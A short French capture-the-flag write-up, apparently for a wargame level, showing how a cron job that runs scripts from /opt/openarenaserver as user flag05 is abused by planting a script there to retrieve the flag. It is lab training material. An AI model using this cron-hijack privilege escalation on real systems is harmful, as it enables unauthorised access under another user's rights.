


# Level05:

**Pour le level05, nous allons simplement chercher dans tous les dossiers du system un fichier qui se nomme "level05" a l'aide de la commande suivante:**

`find / -name level05 -exec ls {} \; 2>/dev/null`

**En suite il suffit de regarder d'afficher le contenu des fichiers trouves**

`find / -name level05 -exec cat {} \; 2>/dev/null`

**On y voit en suite une CronTask a l'interieur, ce n'est qu'une tache qui s'execute toute les 2 minutes dans ce cas precis avec l'utilisateur flag05**
`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

**On sait donc que le binaire "openarenaserver" s'execute toute les 2 minutes**
**Avec la commande du crontask on constate qu'il essaye de lancer un script bash dans le fichier /opt/openarenaserver**

**Je cree donc un script pour recuperer le flag du level05 dans le dossier temporaire**
`echo 'getflag > /tmp/flag' > /tmp/tmp.sh`
**Je lui ajoute les permissions d'execution**
`chmod +x /tmp/tmp.sh`
**Et je l'envoie dans le dossier du openarenaserver**
`cp /tmp/tmp.sh /opt/openarenaserver/`

**Je fais en suite un `cat /tmp/flag` Pour voir apparaitre le flag apres deux minutes d'attente**

